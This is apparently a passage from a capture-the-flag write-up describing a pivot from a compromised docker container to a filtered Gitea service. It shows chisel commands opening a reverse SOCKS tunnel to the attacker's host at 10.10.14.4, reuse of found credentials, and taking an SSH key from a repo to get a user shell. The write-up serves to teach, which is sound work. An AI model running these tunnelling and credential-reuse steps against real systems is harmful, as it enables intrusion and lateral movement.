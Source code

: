 ## Gitea
Now that I have a reverse shell, I notice I am in a docker container. There are a number of things I could try to pivot, but this is an easy box and normally with CTFs the way forward should be relatively clear...
- Remember the filtered port from the initial nmap? Try hitting that endpoint from the docker and find that it is accessible 
- Use chisel to set up a HTTP proxy so that I can navigate to the endpoint using my local browser.
```bash
# On my local box:
$ ./chisel server -p 8001 --reverse
2022/09/09 14:25:20 server: Reverse tunnelling enabled
2022/09/09 14:25:20 server: Fingerprint 8KPkFmp6RQoci/7kPCvq11JpIoGX3Lwl+0iuD+psdQ4=
2022/09/09 14:25:20 server: Listening on http://0.0.0.0:8001
2022/09/09 14:26:09 server: session\#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

# On the docker:
$ ./chisel client 10.10.14.4:8001 R:socks
2022/09/09 19:26:09 client: Connecting to ws://10.10.14.4:8001
2022/09/09 19:26:09 client: Connected (Latency 36.472421ms)
```
Then just set up a proxy through localhost:1080 like I do for Burp Suite and try and navigate to the page...
![[Pasted image 20220909143158.png]]
Now try out those creds that were found earlier? 
![[Pasted image 20220909143536.png]]
Check out the one repo that I see and it contains a copy of the user's home directory which has a valid ssh key. Use that to get a shell as user dev01